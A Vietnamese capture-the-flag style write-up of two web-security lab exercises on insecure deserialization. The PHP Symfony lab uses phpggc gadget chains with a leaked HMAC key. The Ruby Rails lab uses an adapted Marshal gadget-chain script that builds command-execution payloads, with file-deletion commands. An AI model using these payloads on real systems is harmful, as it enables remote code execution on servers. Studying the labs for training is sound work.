

>>Bài này tương tự bài trên nhưng của PHP và cần dùng **pphpggc** để gen chuỗi
>>Và bài này còn có một phần xác thực request bằng chữ kí số



Khi xem source code ta thấy có file `/cgi-bin/phpinfo.php`, ta truy cập thì nhận được file lưu cấu hình `phpinfo.php`



Ta đã tìm được `SECRET_KEY` dùng để kí số



Khi phân tích cookie, ta nhận được cấu trúc như sau

```json
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJmMWNycTFwcmhqMGl3dWRoeG5vZ3Q1cWU5Zmh6dzJvciI7fQ==","sig_hmac_sha1":"03094b14aa2d3ac387ff6cc224df3be08ed57ea7"}
```

Nó gồm 1 phần `token`  và `sig_hmac_sha1` để xác thực request bằng hàm **hmac_sha1**\
Ta tiếp tục phân tích phần token và nhận được chuỗi **serialized**: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f1crq1prhj0iwudhxnogt5qe9fhzw2or";}`

Đây là cấu trúc serialized của PHP, khi thực hiện gây lỗi (*xóa một kí tự bất kì trong cookie*), ta nhận được lỗi kèm với framework của web là `Symfony Version: 4.3.6`

```bash
php phpggc -l
```

Ta thấy `Symfony/RCE4` là phù hợp nhất với phiên bản hiện tại



Ta thực hiện sinh chuỗi serialized bằng **pphpggc**:

```bash
php phpggc Symfony/RCE4 system "rm -rf /home/carlos/morale.txt" | base64 | tr -d '\n'
```



Nhưng mà ta cần thực hiện hash bằng khóa bị mật đã thu thập được ở bên trên

```bash
php phpggc Symfony/RCE4 system "rm -rf /home/carlos/morale.txt" | base64 -w0 | openssl dgst -sha1 -hmac 's7g4f8wmcx3rxr2o99x4a9ksknxo2jys'
```

>*Chú ý*: nếu đúng tất cả các bước trên mà vẫn chưa solve ta có thể thay đổi lên `Symfony/RCE7, 8, 9, 10, 11` cũng có thể solve



## **Lab: Exploiting Ruby deserialization using a documented gadget chain**
 

>>Lab yêu cầu ta thực hiện tìm kiếm các nguồn trên mạng để khai thác
>>Lab cho biết web sử dụng **Ruby** Framework **Rails** 

Ta có thể tham khảo luồng khai thác [tại đây](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

Ta tìm đến cuối có chain

```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "id")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts payload.inspect
puts Marshal.load(payload)
```



Ta sẽ custom lại để giải bài này

```ruby
#!/usr/bin/env ruby

require 'base64'
require 'rubygems'
require 'rubygems/package'
require 'net/protocol'

command = ARGV.fetch(0, 'id')

# Autoload classes used by the Marshal gadget chain.
Gem::SpecFetcher
Gem::Installer

# Prevent execution while the payload is being generated.
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', command)

wa2 = Net::WriteAdapter.new(rs, :resolve)

entry = Gem::Package::TarReader::Entry.allocate
entry.instance_variable_set('@read', 0)
entry.instance_variable_set('@header', 'aaa')

buffered_io = Net::BufferedIO.allocate
buffered_io.instance_variable_set('@io', entry)
buffered_io.instance_variable_set('@debug_output', wa2)

tar_reader = Gem::Package::TarReader.allocate
tar_reader.instance_variable_set('@io', buffered_io)

requirement = Gem::Requirement.allocate
requirement.instance_variable_set('@requirements', tar_reader)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, requirement])
puts Base64.strict_encode64(payload)
```

Chạy:
```bash
podman run --rm -it \
    --network none \
    -v "$PWD":/lab:Z \
    -w /lab \
    docker.io/library/ruby:2.7 \
    ruby ruby_on_rail.rb 'rm -f /home/carlos/morale.txt'
```



<br>


